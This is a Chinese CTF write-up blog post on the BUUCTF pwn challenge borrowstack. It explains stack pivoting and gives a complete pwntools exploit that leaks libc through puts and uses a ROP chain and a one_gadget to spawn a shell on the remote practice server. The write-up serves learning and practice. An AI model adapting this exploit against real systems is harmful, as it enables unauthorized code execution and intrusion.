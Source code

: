 ```yaml
---
title: buuctf-pwn write-ups (8)
date: 2023-02-28 22:11:00
categories:
- write-ups
- buuctf 系列
---
```

# buu062-gyctf_2020_borrowstack
栈迁移。常规的栈迁移方法是返回到leave指令，之前修改rbp到合适的值。我们将rbp修改到bss段的内部，将栈迁移到这里。需要注意不能将栈迁移到变量bank的开头，因为后面还需要调用puts等函数，往上可能会覆盖某些重要数据。因此迁移的地址应该尽量靠后（下面脚本中迁移的地址是bank+0xA0）。使用puts函数读取got表，获取到libc版本，然后使用one_gadget即可getshell。（经过尝试，本题使用system("/bin/sh")不可行，原因不明）

```python
from pwn import *
from LibcSearcher import *
context.log_level = 'debug'
# io = process('./pwn')
io = remote('node4.buuoj.cn', 29767)
elf = ELF('./pwn')

addrsp_8_ret = 0x4004c5
pop3_ret = 0x4006ff
poprdi_ret = 0x400703
poprsi_r15_ret = 0x400701
gadget = 0x4006FA
one_gadgets = [0x45216, 0x4526a, 0xf02a4, 0xf1147]

payload = cyclic(0x60)
payload += p64(0x601080 - 8 + 0xA0)    # new ebp
payload += p64(0x400699)    # leave

io.sendafter(b'Tell me what you want\n', payload)

payload = cyclic(0xA0)
payload += p64(poprdi_ret)
payload += p64(elf.got['puts'])
payload += p64(elf.plt['puts'])
payload += p64(poprdi_ret)
payload += p64(0)
payload += p64(poprsi_r15_ret)
payload += p64(0x601080 + 0x48 + 0xA0)
payload += p64(0xdeadbeef)
payload += p64(elf.plt['read'])	# 仅设定了read函数的前两个参数，第三个参数size没有设置，但是是一个很大的值
io.sendafter(b'stack now!\n', payload)
puts = u64(io.recv(6) + b'\x00\x00')

libc = LibcSearcher('puts', puts)
base = puts - libc.dump('puts')
payload = p64(base + one_gadgets[3])

io.send(payload)
io.interactive()
```
# buu063-others_babystack
简单的canary泄露栈溢出。
